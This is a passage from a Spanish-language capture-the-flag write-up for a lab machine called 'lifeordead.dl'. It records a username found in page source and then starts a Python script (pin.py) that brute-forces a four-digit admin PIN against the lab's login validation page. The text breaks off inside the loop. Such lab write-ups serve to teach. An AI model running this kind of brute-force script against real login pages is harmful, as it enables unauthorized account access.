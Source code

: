 Además, en el código fuente encontramos lo que parece ser un nombre de usuario **dimer**

![source-username](screenshots/source-secret3.png)

## 🔥 Explotación

Por lo tanto vamos a crear un script en python que llamaremos **pin.py** para que nos automatice la búsqueda del código. Tendremos que tener instalado pwntools.

```python
import requests, json, time, signal,sys
from pwn import *

# Ctrl+c
def handler_c(sig,frame):
	print("\nAborting...")
	sys.exit(1)

signal.signal(signal.SIGINT,handler_c)

# Variables
url = "http://lifeordead.dl/pageadmincodeloginvalidation.php"
headers = {
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0",
    "Accept": "*/*",
    "Accept-Language": "en-US,en;q=0.5",
    "Referer": "http://lifeordead.dl/pageadmincodelogin.html",
    "Origin": "http://lifeordead.dl",
    "Connection": "keep-alive",
    "Cookie": "PHPSESSID=9bt39b7cavsl3emsnof1o9543d"
}
p1= log.progress("Force Brute")
p2= log.progress("Data")

def inyection():

	time.sleep(5)
	for i in range(0,9999):

		pin="{:04d}".format(i)
		files={
			"code": (None,pin)
```
